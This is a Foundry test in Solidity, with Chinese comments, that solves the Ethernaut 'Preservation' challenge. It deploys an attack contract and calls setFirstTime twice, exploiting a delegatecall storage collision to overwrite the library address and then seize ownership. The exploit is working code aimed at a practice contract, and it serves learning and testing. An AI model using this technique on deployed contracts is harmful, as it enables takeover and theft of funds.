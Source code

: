 ### Foundry 测试代码

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/16_Preservation.sol";

// 攻击合约定义 (同上)
contract Attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint256 _newOwner) public { owner = address(uint160(_newOwner)); }
}

contract PreservationTest is Test {
    Preservation instance;
    Attack attackContract;
    address player;

    function setUp() public {
        player = vm.addr(1);
        
        // 部署目标合约和攻击合约
        LibraryContract lib = new LibraryContract();
        instance = new Preservation(address(lib), address(lib));
        attackContract = new Attack();
    }

    function testAttacker() public {
        vm.startPrank(player, player);

        // 步骤 1: 将 timeZone1Library (slot 0) 修改为攻击合约的地址
        instance.setFirstTime(uint256(uint160(address(attackContract))));
        
        // 验证 timeZone1Library 是否已更改
        assertEq(instance.timeZone1Library(), address(attackContract));

        // 步骤 2: 再次调用 setFirstTime，这次会执行攻击合约的 setTime 函数
        // 将 owner (slot 2) 修改为 player 的地址
        instance.setFirstTime(uint256(uint160(player)));

        // 验证 owner 是否已更改
        assertEq(instance.owner(), player);

        vm.stopPrank();
    }
}
```
